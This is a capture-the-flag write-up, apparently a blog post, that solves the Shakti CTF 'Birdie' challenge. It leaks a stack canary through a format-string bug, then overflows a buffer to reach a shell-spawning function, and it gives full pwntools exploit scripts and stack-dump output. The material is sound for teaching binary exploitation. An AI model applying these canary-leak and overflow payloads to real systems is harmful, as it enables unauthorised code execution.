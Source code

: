 ```yaml
--- 
title:  "[Shakti CTF] Birdie"
date: 2021-04-05
tags: [pwn, sfb, ret2win, canary shakti-ctf]
---
```


For this challenge we have an elf file that doesn't have a PIE but has a stack canary.

```
┌──(pwn)(eurus㉿warfare)-[~/…/shakti_ctf/Birdie]
└─$ python3 solver.py
[*] '/…/shakti_ctf/Birdie/birdie'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

in disassembling this elf we can see that we have a string-format vulnerability and also the possibility to make a buffer overflow. We can also see that we have a function that call ```system('/bin/sh')```. In order to win this challenge, we need to redirect the flow of this binary program to this function.

A buffer overflow can be made by leaking the canary on the stack. Fortunately with the format-string vulnerability we can leak information from the binary-program during its execution.

```python
from pwn import *

elf = ELF('./birdie')
context.binary = elf

for i in range(1, 100):
    p = elf.process()
    p.recvuntil('Enter your name\n')
    p.sendline(f"%{i}$p")
    log.info(f"{i}:")
    leak = p.recvuntil('\n')
    log.info(leak)
    p.close()
```

I have written this little script to explore the stack and try to find the exact position where the canary is.

```text
[*] 1:
[*] 0x7ffe1c4a8b70
[*] 2:
[*] 0x20
[*] 3:
[*] 0x7f69ca347e8e
[*] 4:
[*] 0x10
[*] 5:
[*] 0x7f488078e180
[*] 6:
[*] 0xf0b2ff
[*] 7:
[*] 0xc2
[*] 8:
[*] 0x1
[*] 9:
[*] 0x4008dd
[*] 10:
[*] 0xa7024303125
[*] 11:
[*] (nil)
[*] 12:
[*] 0x400890
[*] 13:
[*] 0x400690
[*] 14:
[*] 0x7ffe929cda80
[*] 15:
[*] 0xd6194b70fcac3700
[*] 16:
[*] 0x400890
[*] 17:
[*] 0x7fccfae1ed0a
[*] 18:
[*] 0x7ffc3a997f28
[*] 19:
[*] 0x100000000
[*] 20:
[*] 0x4007e2
```

with this dump of the stack (be careful, this is not the stack of one single execution, but every leak in an offset is an individual execution) the canary is at the offset 15. The stack value can be dumped by sending the string: ```%15$p``` to the server.

Once we have the canary value, theoretically we can perform a buffer overflow. Using cyclic and gdb, we find that the offset to the canary in the execution is 72 bytes. Having this information, I have written a script that redirects the execution of the program.

```python
elf = ELF('./birdie')
context.binary = elf


p = elf.process()
#gdb.attach(p, gdbscript = 'b *0x00000000004007E2')
#p = remote("34.121.211.139", 1111)

p.recvuntil('Enter your name\n')
p.sendline(f"%15$p")
leak = str(p.recvuntil('\n'))
c = leak.replace('b\'','').replace('\\n\'','')

log.info(c)

win = 0x0000000000400873
ret_gd = 0x000000000040060e
canary = int(c, 16)
log.info(str(hex(canary)))
payload = b'A'*72+p64(canary)+p64(0)+p64(ret_gd)+p64(win)

p.recvuntil('Enter the payload\n')
p.sendline(payload)
p.interactive()
```

Now we have a shell that allows us to get the flag!
